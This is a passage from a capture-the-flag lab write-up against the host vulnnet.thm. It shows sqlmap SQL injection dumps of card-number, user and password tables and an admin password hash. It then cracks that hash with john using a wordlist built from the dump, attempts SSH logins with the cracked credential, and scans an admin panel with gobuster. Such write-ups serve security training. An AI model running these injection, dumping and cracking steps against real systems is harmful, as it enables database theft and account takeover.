| 381 | 560225039160189619  | Banjarejo                | Alberta    |
| 382 | 201517587595802     | Ar Rumayth?yah           | Baron      |
| 383 | 5256308209869624    | Marmashen                | Patrizio   |
| 384 | 4508966940184048    | Talitsy                  | Dermot     |
| 385 | 5610979031586296    | Shibi                    | Derron     |
| 386 | 3550050822177872    | Derhachi                 | Isobel     |
| 387 | 5587301351884798    | Pangkalanbunut           | Leslie     |
| 388 | 5108753401161728    | Annau                    | Rikki      |
| 389 | 3588772851893857    | Youguzhuang              | Kathe      |
| 390 | 5602211816184687    | Shizuishan               | Byrann     |
| 391 | 3567467435641519    | Pingding                 | Jeffry     |
| 392 | 6395412201774194    | Leiling                  | Suellen    |
| 393 | 6709240494878944425 | Licupis                  | Rhetta     |
| 394 | 3571247560686131    | Capacho Nuevo            | Cacilie    |
| 395 | 56107705342797048   | San Juan                 | Thayne     |
| 396 | 6374107515340691    | Cusco                    | Engracia   |
| 397 | 372301298265143     | Lindavista               | Gery       |
| 398 | 3532919483388460    | Chulakivka               | Winnie     |
| 399 | 6767777782765203    | Shangjia                 | Farrel     |
| 400 | 201891112753750     | Cidahu                   | Merralee   |
| 401 | 3583916652894417    | Otorohanga               | Pamelina   |
| 402 | 3571786101739214    | Bonao                    | Cass       |
| 403 | 3541092073433366    | Siay                     | Ardith     |
| 404 | 4913340740390560    | Markivka                 | Ardyce     |
| 405 | 6304105126416557160 | Bang Mun Nak             | Cris       |
| 406 | 5100140045747435    | Dijon                    | Kristan    |
| 407 | 3546330030400226    | Tirat Karmel             | Eddi       |
| 408 | 5602257334398037318 | Tagbina                  | Carny      |
| 409 | 3552089474928016    | Hengshui                 | Henrietta  |
| 410 | 4405683334867609    | N?lchiti                 | Roddy      |
| 411 | 3568607632764304    | Magangué                 | Merna      |
| 412 | 5610820114206230    | Tangxing                 | Rhetta     |
| 413 | 4903976077363431    | Yulao                    | Orsola     |
| 414 | 3568231711328574    | Arcueil                  | Broderick  |
| 415 | 3587606563855088    | Tumpakkepuh              | Shaylynn   |
| 416 | 5610305746245996    | Bela Vista               | Sydelle    |
| 417 | 6334864432277997    | Akankpa                  | Oralia     |
| 418 | 67634764106153780   | Br?ko                    | Leland     |
| 419 | 36974337919660      | Chantilly                | Katti      |
| 420 | 3588369645638993    | Katuli                   | Fulton     |
| 421 | 3555277660735744    | Pärnu                    | Clarinda   |
| 422 | 3539405036713522    | Banbalah                 | Bobine     |
| 423 | 3562696997693675    | Zabrat                   | Giordano   |
| 424 | 3534321623793949    | Esperanza                | Chrystel   |
| 425 | 4917502511883737    | Banatsko Kara?or?evo     | Felizio    |
| 426 | 5449009345179559    | Sidomukti                | Alf        |
| 427 | 3562666220424495    | Wangcheng                | Traver     |
| 428 | 5610123036443027    | Babakankalong            | Hamish     |
| 429 | 6390283803059598    | Notre-Dame-des-Prairies  | Wally      |
| 430 | 3562851432917797    | Santa Rosa               | Gretchen   |
| 431 | 372301054139318     | Mintian                  | Madeleine  |
| 432 | 5007661147763818    | Santa Rosa               | Missy      |
| 433 | 3569523870963616    | Lavrica                  | Antoine    |
| 434 | 5018037158638776401 | Cruz das Almas           | Hashim     |
| 435 | 3569684320445917    | Afaahiti                 | Astrid     |
| 436 | 67597151559275713   | Wi?lica                  | Kali       |
| 437 | 3572471942923983    | Cekcyn                   | Giles      |
| 438 | 4913524873268285    | Deán Funes               | Jorrie     |
| 439 | 3553025485453346    | Kafue                    | Remus      |
| 440 | 3570318893104133    | Nancy                    | Elisa      |
| 441 | 3563019434659853    | Sindangbarang            | Hansiain   |
| 442 | 201421122952992     | Nangkasari               | Lanita     |
| 443 | 676198740007127855  | Tanjung Pandan           | Dyan       |
| 444 | 30393730948950      | Podkamennaya Tunguska    | Anatollo   |
| 445 | 493686370620048681  | Yandang                  | Elianora   |
| 446 | 3566286134155048    | Pagsañgahan              | Nert       |
| 447 | 3546161713477037    | Ingå                     | Joachim    |
| 448 | 3544157566998907    | Kitami                   | Hussein    |
| 449 | 3557369742632862    | Ljubuški                 | Wren       |
| 450 | 372301696098401     | Gressier                 | Nilson     |
| 451 | 3542049260786120    | Ciodeng                  | Lawrence   |
| 452 | 201862959317777     | Canaman                  | Wilie      |
| 453 | 4787273695043871    | Budy                     | Roda       |
| 454 | 4508657784666980    | Sedatiagung              | Siouxie    |
| 455 | 675927339112066551  | Huayang                  | Joel       |
| 456 | 3589337296280414    | Sindangsari              | Angy       |
| 457 | 3581846434466832    | Qiaoshi                  | Husain     |
| 458 | 3537988205231055    | Jiulongshan              | Jessy      |
| 459 | 6304950140236023    | Shancheng                | Isidore    |
| 460 | 5493959220914220    | Anyama                   | Nickola    |
| 461 | 6304074339321549563 | Tambaksari               | Alasteir   |
| 462 | 3559993612402417    | Deje                     | Cortney    |
| 463 | 5100172105385210    | Tehr?n                   | Tomas      |
| 464 | 6767013657199082876 | Tsivil’sk                | Ali        |
| 465 | 5154165681819169    | Magdalena                | Tallou     |
| 466 | 676732325133006414  | Qiryat Shemona           | Padriac    |
| 467 | 3535831217645502    | Yanqi                    | Josephina  |
| 468 | 5610183636005014    | Karítsa                  | Wait       |
| 469 | 201791492243952     | Chibuto                  | Yulma      |
| 470 | 36569739187690      | Satka                    | Alvan      |
| 471 | 3587799065505572    | Poroshkovo               | Justine    |
| 472 | 3556524426294980    | Yaroslavl                | Susann     |
| 473 | 3579672418718541    | Tagoloan                 | Delmore    |
| 474 | 3540956192774176    | Banjar Dukuh             | Cesaro     |
| 475 | 501851753992607359  | Terang                   | Malory     |
| 476 | 337941454109082     | Wonokerto                | Koral      |
| 477 | 3532877348748338    | João Pinheiro            | Sherry     |
| 478 | 3576064252470913    | Bicas                    | Guinna     |
| 479 | 3579855265669608    | Xia Dawo                 | Martynne   |
| 480 | 4405078356635242    | Bairro                   | Kevyn      |
| 481 | 372301288044722     | Wichita                  | Ricky      |
| 482 | 5405715064474797    | Yuzhou                   | Alex       |
| 483 | 3588336087391183    | Sukamantri Satu          | Ileane     |
| 484 | 6767346962434954    | Yashalta                 | Kassie     |
| 485 | 4911004279703292250 | Lubo?                    | Eden       |
| 486 | 3569765338773844    | Asy??                    | Krispin    |
| 487 | 3567638103055766    | Redinha                  | Heida      |
| 488 | 5610728663018908    | Calçada                  | Jaye       |
| 489 | 5193486614710280    | Curitiba                 | Vivie      |
| 490 | 201663725163788     | Yuanjue                  | Layton     |
| 491 | 4148132221513894    | Žagar?                   | Xever      |
| 492 | 4905616844414756    | West Kelowna             | Agnes      |
| 493 | 201476015008476     | Guandu                   | Jedd       |
| 494 | 374283283927952     | Rakvere                  | Beltran    |
| 495 | 3543980010378199    | Sukomulyo                | Deane      |
| 496 | 3540735576373643    | Quinjalca                | Pincas     |
| 497 | 6709336091807139195 | Th? Tr?n Quan Hóa        | Padriac    |
| 498 | 3568170114861130    | Qianjin                  | Dione      |
| 499 | 3547976937702749    | Antou                    | Bab        |
| 500 | 4017950167981       | Bacuyangan               | Drusy      |
+-----+---------------------+--------------------------+------------+

[08:02:49] [INFO] table 'blog.details' dumped to CSV file '/root/.local/share/sqlmap/output/api.vulnnet.thm/dump/blog/details.csv'                                                                                                            
[08:02:49] [INFO] fetching columns for table 'metadata' in database 'blog'
[08:02:49] [INFO] fetching entries for table 'metadata' in database 'blog'
Database: blog
Table: metadata
[6 entries]
+----+------+---------+
| id | flag | browser |
+----+------+---------+
| 1  | 1    | Firefox |
| 2  | 0    | Firefox |
| 3  | 0    | Chrome  |
| 4  | 1    | Firefox |
| 5  | 0    | Chrome  |
| 6  | 1    | Edge    |
+----+------+---------+

[08:02:49] [INFO] table 'blog.metadata' dumped to CSV file '/root/.local/share/sqlmap/output/api.vulnnet.thm/dump/blog/metadata.csv'                                                                                                          
[08:02:49] [INFO] fetching columns for table 'users' in database 'blog'
[08:02:50] [INFO] fetching entries for table 'users' in database 'blog'
Database: blog
Table: users
[651 entries]
+-----+---------------------+--------------------+
| id  | password            | username           |
+-----+---------------------+--------------------+
[08:02:51] [WARNING] console output will be trimmed to last 256 rows due to large table size
| 396 | D8Gbl8mnxg          | lspikinsaz         |
| 397 | kLLxorKfd           | profeb0            |
| 398 | cdXAJAR             | sberrymanb1        |
| 399 | 0hdeFiZBRJ          | ajefferiesb2       |
| 400 | 6rl6qXSJDrr         | hkibblewhiteb3     |
| 401 | DuYMuI              | dtremayneb4        |
| 402 | fwbk0Vgo            | bflewinb5          |
| 403 | 92Fb3vBF5k75        | kmolineuxb6        |
| 404 | zzh9wheBjX          | fjosefsb7          |
| 405 | sAGTlyBrb5r         | tmiskellyb8        |
| 406 | 3uUPdL              | nallrightb9        |
| 407 | fp2LW0x             | hlevermoreba       |
| 408 | IKhg7D              | celgerbb           |
| 409 | Tjyu2Ch2            | frustedbc          |
| 410 | NgKgdeKRVEK         | imeneghibd         |
| 411 | wGWMg3d             | vgouninbe          |
| 412 | ruTxBc2n85          | cbartoschbf        |
| 413 | ZydELwZFV2          | lcordonbg          |
| 414 | ROfVmvZSYS          | dappsbh            |
| 415 | B4SBGt5yAD          | zduchanbi          |
| 416 | zhE95JJX9l          | jfraybj            |
| 417 | nXSVHhVW9S          | mlanchesterbk      |
| 418 | NCeU070             | cgylesbl           |
| 419 | WzkvfoedkXJx        | cbonnifacebm       |
| 420 | ktPBpK1             | btoppasbn          |
| 421 | 8fCXE6BF9gj         | mdurrettbo         |
| 422 | cSAjOy              | skilroybp          |
| 423 | HLUHZ9oQ            | uvonderemptenbq    |
| 424 | gTc7TiSsd2          | dvinsenbr          |
| 425 | 7yQ0b1B             | ltiltbs            |
| 426 | SXD1eC6ysa          | dsimcoebt          |
| 427 | bgb084kq            | wfrailbu           |
| 428 | NsJFz4DLpI          | lmityukovbv        |
| 429 | 7JVPatN             | vkellarbw          |
| 430 | yuTnSPEvIoJ4        | rkingstonbx        |
| 431 | L3ttm8              | rbakewellby        |
| 432 | vyae6t              | dbousteadbz        |
| 433 | iA4AD4UlcLF1        | vstaddenc0         |
| 434 | VlyIAh              | rwhacketc1         |
| 435 | IpsnIEbIaT          | tnoorc2            |
| 436 | UPU9rZu8q           | dduffync3          |
| 437 | xuUXUFXoc           | dstichelc4         |
| 438 | yTuqouj9ZK          | kcleverlyc5        |
| 439 | QDneobZ1DH          | sreinertc6         |
| 440 | OdrnoHtrP           | mcottinghamc7      |
| 441 | c3KvR6              | ljansemac8         |
| 442 | GMbFP9              | acodac9            |
| 443 | zIZ11OPuj           | rhuggardca         |
| 444 | XCX2GVx             | gkeechcb           |
| 445 | nJQgYR2uOyZq        | syurincc           |
| 446 | AQlFlPvf            | agaulecd           |
| 447 | zj6vR6Bf            | wboijce            |
| 448 | eL5uJnLD2           | kphifercf          |
| 449 | 7HEMdTc07           | abenglecg          |
| 450 | VbzVZoYn            | emarkingch         |
| 451 | wln8WN3PJ           | nmuldowneyci       |
| 452 | 3AcKBTHRN           | jbygrovecj         |
| 453 | 32ZXql9Uw8          | bduxburyck         |
| 454 | 2pnBsk6i            | fthewcl            |
| 455 | JxcEXKAN            | kmeececm           |
| 456 | rkyCMLwOIt          | bholligancn        |
| 457 | KlxQ4Vxl            | bferonetco         |
| 458 | OFc5f2              | jcraycp            |
| 459 | SsLMTxbw            | hethertoncq        |
| 460 | nUpdnCZW1cqr        | cclayecr           |
| 461 | 0I7ldSNbm           | tmcbreartycs       |
| 462 | gqQeawiZ            | oderuggieroct      |
| 463 | djQBjW3pk           | rdoerscu           |
| 464 | G9FarmKd            | karbucklecv        |
| 465 | lXCoFI              | bbuckbycw          |
| 466 | WAMRuFTTI3          | ldixseecx          |
| 467 | diVq6PDeEpz         | jmahedycy          |
| 468 | bV6cXPOFfLg         | gdamrellcz         |
| 469 | dCrF5fv             | sgarrettd0         |
| 470 | Q4gYmlM             | plaurenceaud1      |
| 471 | SnvFrSB6AB          | kmcgeacheyd2       |
| 472 | qiehVyQ             | mhopewelld3        |
| 473 | At9A4aCJos          | chottond4          |
| 474 | 8T9v08352re         | hsellandd5         |
| 475 | y8chyGC9js          | syegorkovd6        |
| 476 | ghMz6e68c1Z         | adavisond7         |
| 477 | 00S7q8S1f8W         | amewisd8           |
| 478 | 2rruluVz0SwY        | lorpind9           |
| 479 | hXaVYfHUZoz         | jbilovskyda        |
| 480 | j7GAP4v             | jhalforddb         |
| 481 | 0MM46yTEVBL2        | wcolisbedc         |
| 482 | QUDViFUxO           | cgreastydd         |
| 483 | YGcBpM              | ajackde            |
| 484 | 2js9AM              | cmcgarritydf       |
| 485 | oJ38KUXgm           | tjostdg            |
| 486 | KP9DmIk             | lguidendh          |
| 487 | qNYURfhw            | mbletsodi          |
| 488 | jDmbnZJi            | wsneesbydj         |
| 489 | t8xlAuAvH8Yj        | glerouxdk          |
| 490 | TTin1up             | yhaythornthwaitedl |
| 491 | 0ftVkbqP            | nzmitrovichdm      |
| 492 | Kwcozh              | jgodballdn         |
| 493 | TWnwDTB             | jkiddeydo          |
| 494 | IxQgXLrw            | acaghandp          |
| 495 | AxuOsAA0lqrc        | rattestonedq       |
| 496 | GCpyVf              | mmichallatdr       |
| 497 | YnPCjKg             | rgaitoneds         |
| 498 | NOYhOlnC            | krobbekedt         |
| 499 | pjSBcAVD            | nknollerdu         |
| 500 | 5RigTGe             | wshemeltdv         |
| 501 | jwKMTMu             | rpeperelldw        |
| 502 | 4qfwbKNed3I         | lbescobydx         |
| 503 | qSX9N1Kf8XJ         | jparishdy          |
| 504 | AoIrka              | jminghidz          |
| 505 | Ft4xVROXXCd5        | nforthe0           |
| 506 | x3WIaoX99yb         | tklemensiewicze1   |
| 507 | hXcrFv              | epotterye2         |
| 508 | 6ZtJhp4col          | lbrugmanne3        |
| 509 | bqItfg4wf           | adencse4           |
| 510 | 5W4lM81DPo          | cfloreze5          |
| 511 | IT6p5HT             | amatanine6         |
| 512 | 0Q6T9jvAZB          | fchalkere7         |
| 513 | M7lvtAz6oRNS        | rytere8            |
| 514 | MpO7FgPoz           | cstillee9          |
| 515 | 8rIuhW0VZ           | cbashamea          |
| 516 | OS15i4              | flyeseb            |
| 517 | Usl7mH2H            | gtieryec           |
| 518 | WDAliOAKFj7f        | sborgheseed        |
| 519 | iwpk0YC             | hmctrustyee        |
| 520 | lN8d6g1             | wvigeref           |
| 521 | nuwPbeTIgX8F        | nbockeneg          |
| 522 | LvBDyc9JRPV         | ffranzmaneh        |
| 523 | ncpiXJX             | drippingaleei      |
| 524 | vQUTz2xEyWx4        | achambersej        |
| 525 | wQcbURC             | fsuarezek          |
| 526 | irTEDl2k            | kaspoleel          |
| 527 | H6WyTMdy            | mmursellem         |
| 528 | pukixtg             | szecchinellien     |
| 529 | Or6dtgSGmd          | cnewlineo          |
| 530 | VhkvlZO             | cmccrowep          |
| 531 | slncO0kvmb          | shavershameq       |
| 532 | svJ4749mzdJ         | jtumeltyer         |
| 533 | weR5eukJOX6C        | cmathivates        |
| 534 | rp8sqUpw            | btarzeyet          |
| 535 | 8T7UFX              | fstedmaneu         |
| 536 | SkuuzEsAZ           | mgaitoneev         |
| 537 | RIs9MA              | zscotlandew        |
| 538 | ttKwcGDELB          | dfurbyex           |
| 539 | PVVOkQqHVdU         | sdallowey          |
| 540 | Szh74h              | lmccormackez       |
| 541 | wMkLVr0             | arenneyf0          |
| 542 | 4Bux8MCHXS          | lbodegaf1          |
| 543 | ZXIOChbv            | rsantostefanof2    |
| 544 | PcJPLBJf            | mvaissieref3       |
| 545 | kgjhKzMWYakS        | csolwayf4          |
| 546 | p69xguJZe           | pwaddingtonf5      |
| 547 | ntswwsY             | kchaffeyf6         |
| 548 | lh0Llscj            | zgooblef7          |
| 549 | uqzWk2PYLJR7        | pwassf8            |
| 550 | eIZQxLh             | bmcclenaghanf9     |
| 551 | IDp96W1RUb          | bhaddintonfa       |
| 552 | Z7MGodFb            | rblesingfb         |
| 553 | caw1QQ1             | mblownefc          |
| 554 | QpPSspEWus          | lwhitlandfd        |
| 555 | u6ZBlHvmId          | lgoftonfe          |
| 556 | BvZ0JJNVWCX         | vdubbleff          |
| 557 | Ih1thIl             | dfrenschfg         |
| 558 | jmjhYpmgg           | gofarrisfh         |
| 559 | LFXCNqt5hN          | kpipkinfi          |
| 560 | tofKHos             | sshilstonfj        |
| 561 | fCMRSGm4BzNQ        | lstanistreetfk     |
| 562 | zFdwNg16yCdB        | ktomasellifl       |
| 563 | qJhjNz0sK7Z         | fmarkhamfm         |
| 564 | wmd4CD60            | bledingtonfn       |
| 565 | mZjvZC              | yzettoifo          |
| 566 | 7MeBiB7             | coganfp            |
| 567 | VCV8FqINn           | sdibollfq          |
| 568 | OsZxivx             | blampkinfr         |
| 569 | HVBEN4              | mfachefs           |
| 570 | m9R8setEC           | kburelft           |
| 571 | q1SivtRlbetm        | bgrimsdithfu       |
| 572 | fRnopRDUrds         | ctolemanfv         |
| 573 | eZ3TzXtdD           | awhiteheadfw       |
| 574 | Uh2kDLMNFeej        | mchislettfx        |
| 575 | Ln6WDY              | lreichardtfy       |
| 576 | kGBl9CgCPcGF        | bjossfz            |
| 577 | TuK60tJ             | hprevostg0         |
| 578 | mwTGls              | rpritchettg1       |
| 579 | Ym2cHtkuW           | dantonssong2       |
| 580 | axZcgE9T            | gmantrupg3         |
| 581 | 6LFtl39ggEtI        | dsimioneg4         |
| 582 | 79hJw4u             | lmiddleg5          |
| 583 | UdPazP              | amcquorkelg6       |
| 584 | hFdDjfcdwCja        | mellwandg7         |
| 585 | w9Copz4             | ddunbobing8        |
| 586 | K67Hs5              | cszabog9           |
| 587 | molOCywSVk          | cdorbonga          |
| 588 | wWQpqk              | fridgwellgb        |
| 589 | Ipmq9QvTymr         | ksiregc            |
| 590 | 7v4eltt3Kuw         | hwhardleygd        |
| 591 | ctvNF49tuT          | hpoppletonge       |
| 592 | hFgxHo5Xp           | aghidoligf         |
| 593 | g4St9w              | fstilinggg         |
| 594 | DTSos9KOFhIO        | ebodechongh        |
| 595 | 0lj1adMG            | rbennellickgi      |
| 596 | kNEDmUrVp           | gnaldergj          |
| 597 | 8kt6CKNTc           | preygk             |
| 598 | Khmoz3bGQiwo        | cjigglegl          |
| 599 | 2UrQCd16gtqN        | aburgisgm          |
| 600 | yQrAEzZxK           | nluddygn           |
| 601 | TeFpfcTSt4K         | lcluttengo         |
| 602 | Q8vHxue1            | laseefgp           |
| 603 | 8sNg5H              | wdovergq           |
| 604 | BB2ymU              | bjackesgr          |
| 605 | CTCPBoG             | sphebeygs          |
| 606 | KoM1f3mmxlC         | hhushergt          |
| 607 | H9fzdE              | dmowatgu           |
| 608 | OQ4Axwb             | vgoodhandgv        |
| 609 | zo9YGPcnoFY         | vcocktongw         |
| 610 | wNfgrMLd92          | afrackiewiczgx     |
| 611 | L70zF2              | wmccorkellgy       |
| 612 | vjlPxrlrB1          | mbaldersongz       |
| 613 | 1fDBrk              | jdovingtonh0       |
| 614 | NVQobq              | tlunneyh1          |
| 615 | 4IHZylSa6uSk        | lwaulkerh2         |
| 616 | 6mqTbfJcyB          | nceccolih3         |
| 617 | BtdoQGpOg           | aworsnuph4         |
| 618 | HA5wRx2Xkt          | pwheelhouseh5      |
| 619 | rsQIXNF4p56t        | ashearsh6          |
| 620 | DD87MyB             | bhendriksh7        |
| 621 | EqEt2NXw37Q         | tgrovierh8         |
| 622 | oN9I8Sf             | kspanswickh9       |
| 623 | HkZs0YLv            | krattrayha         |
| 624 | LTSB3oaxy9          | anorcockhb         |
| 625 | 2lOIMadSDW2         | kneathc            |
| 626 | 2YDcmeZaKwig        | ajaggarhd          |
| 627 | 7pA32uFwx8eh        | krossbrookehe      |
| 628 | yoWnriWXeTc         | lpavelhf           |
| 629 | OglY7vT0Pyn         | agaitskillhg       |
| 630 | GBCtL62Xa           | bmylechreesthh     |
| 631 | JdHOJPdpZV          | hsimenothi         |
| 632 | PT8RllCQ            | bbrunihj           |
| 633 | bJR3DOVL            | sroysonhk          |
| 634 | yoJwhOI             | bmarrinerhl        |
| 635 | tfncTGLw            | ataillanthm        |
| 636 | dBcYuQwU            | acassamhn          |
| 637 | s6QjWpLo            | kfruchonho         |
| 638 | LTbmsk6T            | kdenyakinhp        |
| 639 | xrbjFjA8p           | mhundyhq           |
| 640 | gaMmTSLHkMZE        | zcatchesidehr      |
| 641 | VH3FsbYfk           | anorcrosshs        |
| 642 | YY6hmavoD           | kklavesht          |
| 643 | kElKt4              | bloghanhu          |
| 644 | 4eHrdt5Z            | ekayzerhv          |
| 645 | 2QZrPJ2             | jovenhw            |
| 646 | t0xmZtLTXa          | gboayshx           |
| 647 | 09jD21OoQ           | asuermeiershy      |
| 648 | OBJZD6f             | msambidgehz        |
| 649 | Cc4QOkuSvrF         | bhuertai0          |
| 650 | kSKBUj8             | oboatmani1         |
| 651 | BIkqvmX             | rtamblingi2        |
+-----+---------------------+--------------------+

[08:02:51] [INFO] table 'blog.users' dumped to CSV file '/root/.local/share/sqlmap/output/api.vulnnet.thm/dump/blog/users.csv'                                                                                                                
[08:02:51] [INFO] fetching columns for table 'blog_posts' in database 'blog'
[08:02:51] [INFO] fetching entries for table 'blog_posts' in database 'blog'
Database: blog
Table: blog_posts
[5 entries]
+----+------------------------------------------------------------+----------+
| id | titles                                                     | status   |
+----+------------------------------------------------------------+----------+
| 1  | Windows Search Vulnerability Can be Abused to Deliver      | posted   |
| 2  | Browser Automation Framework is the New Threat             | posted   |
| 3  | Telegram's Blogging Platform Exploited in Phishing Attacks | posted   |
| 4  | Windows MSDT zero-day now exploited by APT hackers         | posted   |
| 5  | 18 Things You Should Learn Before Moving Into a New Home   | draft    |
+----+------------------------------------------------------------+----------+
```

`sqlmap --random-agent -u "http://api.vulnnet.thm/vn_internals/api/v2/fetch/?blog=1" -p blog --dbms=mysql -D vn_admin --tables`

```jsx
Database: vn_admin
[48 tables]
+---------------------------------------------+
| backend_layout                              |
| be_dashboards                               |
| be_groups                                   |
| be_sessions                                 |
| be_users                                    |
| cache_adminpanel_requestcache               |
| cache_adminpanel_requestcache_tags          |
| cache_hash                                  |
| cache_hash_tags                             |
| cache_imagesizes                            |
| cache_imagesizes_tags                       |
| cache_pages                                 |
| cache_pages_tags                            |
| cache_pagesection                           |
| cache_pagesection_tags                      |
| cache_rootline                              |
| cache_rootline_tags                         |
| cache_treelist                              |
| fe_groups                                   |
| fe_sessions                                 |
| fe_users                                    |
| pages                                       |
| sys_be_shortcuts                            |
| sys_category                                |
| sys_category_record_mm                      |
| sys_collection                              |
| sys_collection_entries                      |
| sys_file                                    |
| sys_file_collection                         |
| sys_file_metadata                           |
| sys_file_processedfile                      |
| sys_file_reference                          |
| sys_file_storage                            |
| sys_filemounts                              |
| sys_history                                 |
| sys_language                                |
| sys_lockedrecords                           |
| sys_log                                     |
| sys_news                                    |
| sys_note                                    |
| sys_redirect                                |
| sys_refindex                                |
| sys_registry                                |
| sys_template                                |
| tt_content                                  |
| tx_extensionmanager_domain_model_extension  |
| tx_extensionmanager_domain_model_repository |
| tx_impexp_presets                           |
+---------------------------------------------+
```

`sqlmap --random-agent --batch -u "http://api.vulnnet.thm/vn_internals/api/v2/fetch/?blog=1" -p blog --dbms=mysql -D vn_admin -T be_users --columns`

```jsx
[34 columns]
+-----------------------+----------------------+
| Column                | Type                 |
+-----------------------+----------------------+
| admin                 | smallint(5) unsigned |
| description           | text                 |
| disable               | smallint(5) unsigned |
| options               | smallint(5) unsigned |
| allowed_languages     | varchar(255)         |
| avatar                | int(10) unsigned     |
| category_perms        | text                 |
| crdate                | int(10) unsigned     |
| createdByAction       | int(11)              |
| cruser_id             | int(10) unsigned     |
| db_mountpoints        | text                 |
| deleted               | smallint(5) unsigned |
| disableIPlock         | smallint(5) unsigned |
| email                 | varchar(255)         |
| endtime               | int(10) unsigned     |
| file_mountpoints      | text                 |
| file_permissions      | text                 |
| lang                  | varchar(6)           |
| lastlogin             | int(10) unsigned     |
| lockToDomain          | varchar(50)          |
| password              | varchar(100)         |
| pid                   | int(10) unsigned     |
| realName              | varchar(80)          |
| starttime             | int(10) unsigned     |
| TSconfig              | text                 |
| tstamp                | int(10) unsigned     |
| uc                    | mediumblob           |
| uid                   | int(10) unsigned     |
| usergroup             | varchar(255)         |
| usergroup_cached_list | text                 |
| userMods              | text                 |
| username              | varchar(50)          |
| workspace_id          | int(11)              |
| workspace_perms       | smallint(6)          |
+-----------------------+----------------------+
```

`sqlmap -u "http://api.vulnnet.thm/vn_internals/api/v2/fetch/?blog=1" -p blog --dbms=mysql -D vn_admin -T be_users -C username,password --dump`

```jsx
[1 entry]
+----------+---------------------------------------------------------------------------------------------------+
| username | password                                                                                          |
+----------+---------------------------------------------------------------------------------------------------+
| chris_w  | $argon2i$v=19$m=65536,t=16,p=2$UnlVSEgyMUFnYnJXNXlXdg$j6z3IshmjsN+CwhciRECV2NArQwipqQMIBtYufyM4Rg |
+----------+---------------------------------------------------------------------------------------------------+
```

> **Password Cracking Phase**
> 

`nano chrishash`

```jsx
$argon2i$v=19$m=65536,t=16,p=2$UnlVSEgyMUFnYnJXNXlXdg$j6z3IshmjsN+CwhciRECV2NArQwipqQMIBtYufyM4Rg
```

`cat /root/.local/share/sqlmap/output/api.vulnnet.thm/dump/blog/users.csv | cut -d "," -f2 > passwords.list`

```jsx
password
d5aa4AsdO
HCeByMT
YffkBZ
ZJpyxy
c7I4LAkVMIEN
75mupA
1hoUq2Q
TB5ziSGLU3
BdZ1sipbGkR7

[REDACTED] - MORE
```

`sudo john --wordlist=passwords.list chrishash`

```jsx
vAxWtmNzeTz      (?)
```

> **SSH Connection Attempt**
> 

`crackmapexec ssh vulnnet.thm -u 'chris_w' -p 'vAxWtmNzeTz' --port 22 -x 'whoami'`

```jsx
SSH         vulnnet.thm     22     vulnnet.thm      [*] SSH-2.0-OpenSSH_7.6p1 Ubuntu-4ubuntu0.7
SSH         vulnnet.thm     22     vulnnet.thm      [-] chris_w:vAxWtmNzeTz Authentication failed
```

> **Directory Scan & Endpoint Control Phase**
> 

`curl -iLX GET -D admin1response.txt http://admin1.vulnnet.thm`

```jsx
HTTP/1.1 307 Temporary Redirect
Date: Fri, 15 Nov 2024 13:52:33 GMT
Server: Apache/2.4.29 (Ubuntu)
location: http://admin1.vulnnet.thm/en/
Content-Length: 0
Content-Type: text/html; charset=UTF-8

HTTP/1.1 200 OK
Date: Fri, 15 Nov 2024 13:52:34 GMT
Server: Apache/2.4.29 (Ubuntu)
Last-Modified: Tue, 14 Jun 2022 16:14:19 GMT
ETag: "20-5e16ab263a52b"
Accept-Ranges: bytes
Content-Length: 32
Content-Type: text/html

vulnnet management panel is up!
```

`gobuster dir -u http://admin1.vulnnet.thm -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -e -b 403,404,500,501,502,503 --random-agent -t 60` 

```jsx
http://admin1.vulnnet.thm/en                   (Status: 301) [Size: 321] [--> http://admin1.vulnnet.thm/en/]
http://admin1.vulnnet.thm/fileadmin            (Status: 301) [Size: 328] [--> http://admin1.vulnnet.thm/fileadmin/]
http://admin1.vulnnet.thm/typo3                (Status: 301) [Size: 324] [--> http://admin1.vulnnet.thm/typo3/]
http://admin1.vulnnet.thm/typo3temp            (Status: 301) [Size: 328] [--> http://admin1.vulnnet.thm/typo3temp/]
http://admin1.vulnnet.thm/typo3conf            (Status: 301) [Size: 328] [--> http://admin1.vulnnet.thm/typo3conf/]
http://admin1.vulnnet.thm/vendor               (Status: 301) [Size: 325] [--> http://admin1.vulnnet.thm/vendor/]

```

`curl -iLX GET http://admin1.vulnnet.thm/fileadmin`

```jsx
HTTP/1.1 301 Moved Permanently
Date: Fri, 15 Nov 2024 13:59:18 GMT
Server: Apache/2.4.29 (Ubuntu)
Location: http://admin1.vulnnet.thm/fileadmin/
Content-Length: 328
Content-Type: text/html; charset=iso-8859-1

HTTP/1.1 200 OK
Date: Fri, 15 Nov 2024 13:59:18 GMT
Server: Apache/2.4.29 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 1151
Content-Type: text/html;charset=UTF-8

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<html>
 <head>
  <title>Index of /fileadmin</title>
 </head>
 <body>
<h1>Index of /fileadmin</h1>
  <table>
   <tr><th valign="top"></th><th><a href="?C=N;O=D">Name</a></th><th><a href="?C=M;O=A">Last modified</a></th><th><a href="?C=S;O=A">Size</a></th><th><a href="?C=D;O=A">Description</a></th></tr>
   <tr><th colspan="5"><hr></th></tr>
<tr><td valign="top"></td><td><a href="/">Parent Directory</a></td><td>&nbsp;</td><td align="right">  - </td><td>&nbsp;</td></tr>
<tr><td valign="top"></td><td><a href="_temp_/">_temp_/</a></td><td align="right">2022-06-14 13:02  </td><td align="right">  - </td><td>&nbsp;</td></tr>
<tr><td valign="top"></td><td><a href="user_upload/">user_upload/</a></td><td align="right">2022-06-14 13:02  </td><td align="right">  - </td><td>&nbsp;</td></tr>
   <tr><th colspan="5"><hr></th></tr>
</table>
<address>Apache/2.4.29 (Ubuntu) Server at admin1.vulnnet.thm Port 80</address>
</body></html>

```

`curl -iLX GET http://admin1.vulnnet.thm/typo3`

```jsx

HTTP/1.1 301 Moved Permanently
Date: Fri, 15 Nov 2024 13:59:53 GMT
Server: Apache/2.4.29 (Ubuntu)
Location: http://admin1.vulnnet.thm/typo3/
Content-Length: 324
Content-Type: text/html; charset=iso-8859-1

HTTP/1.1 200 OK
Date: Fri, 15 Nov 2024 13:59:53 GMT
Server: Apache/2.4.29 (Ubuntu)
Expires: 0
Last-Modified: Fri, 15 Nov 2024 13:59:53 GMT
Cache-Control: no-cache, must-revalidate
Pragma: no-cache
Set-Cookie: be_typo_user=7087be668fb1f0d379e936c00faf91cb; path=/; httponly; samesite=strict
